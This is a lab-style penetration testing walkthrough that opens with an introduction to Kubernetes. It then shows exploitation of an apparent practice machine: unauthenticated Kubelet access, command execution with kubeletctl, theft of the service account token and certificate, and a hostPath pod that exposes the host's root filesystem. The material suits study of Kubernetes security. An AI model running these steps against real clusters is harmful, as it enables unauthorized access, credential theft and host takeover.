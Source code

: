 ```yaml
---
description: >-
  Developed by Google, Kubernetes leverages over a decade of experience in
  running complex workloads.
---
```


# Kubernetes

{% embed url="https://www.youtube.com/watch?ab_channel=GoogleCloudTech&v=cC46cg5FFAM" %}
What is Kubernetes
{% endembed %}

### What is Kubernetes or K8s

Kubernetes is a portable, extensible and open source platform for managing containerized workloads and services. It is a container orchestration system which functions by runnnig applications in containers isolated from the host system. Originally developed by Google, it is now maintained by the Cloud Native Computing Foundation (CNCF)

<figure><img src="broken-reference" alt=""><figcaption><p>Image from: <a href="https://www.opsramp.com/guides/why-kubernetes/kubernetes-architecture/">https://www.opsramp.com/guides/why-kubernetes/kubernetes-architecture/</a></p></figcaption></figure>

### Container Orchestrator

Kubernetes makes sure each container is where it supposed to be and the containers can work together. It takes care of running services the way an app developer wants them to run. Kubernetes orchestrates these containers across multiple hosts, helping manage the lifecycle, networking, and distribution of containers to optimize resource use.

{% hint style="info" %}
**For terms checkout the Kubernetes cheat sheet. https://kubernetes.io/docs/reference/kubectl/cheatsheet/**
{% endhint %}

#### -- Cluster

Is a set of machines individually referred to as nodes used to run containerized applications managed by Kubernetes.

#### -- Pod:

Is a single container or a set of containers running on a Kubernetes cluster. It can hold one or more closely connected containers. Each pod functions as a separate virtual machine on a node, complete with its own IP, hostname, and other details.

#### -- Nodes

Is either a virtual or physical machine. A cluster consists of a master node and a number of worker nodes. The master node hosts the Kubernetes Control Plane, which manages and coordinates all activities within the cluster, the Minions execute the actual applications and they receive instructions from the Control Plane and ensure the desired state is achieved.

* `The Control Plane` (master node), which is responsible for controlling the Kubernetes cluster.
* `The Worker Nodes` (minions), where the containerized applications are run.

## Kubernetes API

The core of Kubernetes architecture is its API, it serves for all internal and external interactions. It allows users to define their desired state for a system. The Kubernetes API facilitates communication and control within the Kubernetes cluster.

In Kubernetes, an API resource acts as an endpoint containing a specific set of API objects related to a particular type, such as Pods, Services, and Deployments. Each resource type has a unique set of actions that can be performed like:

* `GET` Retrieve information.
* `POST` Create new resource
* `PUT` update a resource
* `PATCH` partial update to resource
* `DELETE` delete a resource

### Authentication

{% hint style="info" %}
In Kubernetes, the `Kubelet` can be configured to permit `anonymous access`.
{% endhint %}

Kubernetes supports various methods such as client certificates, bearer tokens, an authenticating proxy, or HTTP basic auth. Once the user has been authenticated, Kubernetes enforces authorization decisions using Role-Based Access Control (`RBAC`).

#### Interact with K8's API server

{% code overflow="wrap" %}
```bash
# System:anonymous means unauthenticated user, no valid credentials or are trying to access the API server anonymously.
$ curl https://10.10.11.133:8443 -k
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {
    
  },
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {
    
  },
  "code": 403
}        
```
{% endcode %}

#### Extracting Pods using the Kubelet API

`curl https://10.10.11.133:10250/pods -k | jq .` will extract names, namespaces, creation timestamps and container images. Finding container images and their versions can help us identify know vulnerabilities and exploit them.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### Extracting Pods with **Kubeletctl**

`kubeletctl` is a command-line tool used to interact with the Kubelet API on Kubernetes nodes.

The command `kubeletctl -i --server 10.129.10.11 pods` is used to list all pods running on a specific Kubernetes node by directly querying the Kubelet API on that node.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Using `kubeletctl -i --server 10.129.10.11 scan rce` we can check if we have remote code execution over any of the containers.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Trying the nginx container we got RCE.

```bash
kubeletctl -i --server 10.10.11.133 exec "id" -p nginx  -c nginx         
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

To gain acces to the host system by gaining higher privileges we can obatin the service account's token and certificate (ca.crt) using [kubeletctl](https://github.com/cyberark/kubeletctl). With that we can set up a volume mount to attach the entire root filesystem from the host system

{% code overflow="wrap" %}
```bash
# Get latest version
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# Chmod
chmod +x kubectl

# Move to PATH
sudo mv kubectl /usr/local/bin/
```
{% endcode %}

#### Extracting tokens

```bash
# Get token
$ kubeletctl -i --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token                                                                                                                                                                                                              
```

#### Extracting Certifcates

```bash
# Get certificate
$ kubeletctl --server 10.10.11.133 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```

#### List privileges

{% code overflow="wrap" %}
```bash
# Export token as variable
$ export token=`cat k8.token`
```
{% endcode %}

<figure><img src="broken-reference" alt=""><figcaption><p>We have permission to create a pod.</p></figcaption></figure>

We have permissions to get, create, and list pods, which represent the running containers within the cluster. From this point, we can create a YAML configuration file to define a new container. In this configuration, we can set up a volume mount to attach the entire root filesystem from the host system into the `/root` directory of the container.

<details>

<summary>yaml file</summary>

{% code overflow="wrap" %}
```bash
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
{% endcode %}

</details>

Upload the yaml file using:

```bash
# upload the yaml file
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f PE.yaml
pod/privesc created

# Check if its running
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 get pods
NAME      READY   STATUS    RESTARTS   AGE
nginx     1/1     Running   0          6h14m
privesc   1/1     Running   0          87s
```

And finally we can read contents from host root directory

```bash
$ kubeletctl --server 10.10.11.133 exec "cat /root/root/root.txt" -p privesc -c privesc
e189181488a148esdfdsfsd7909f405579
```
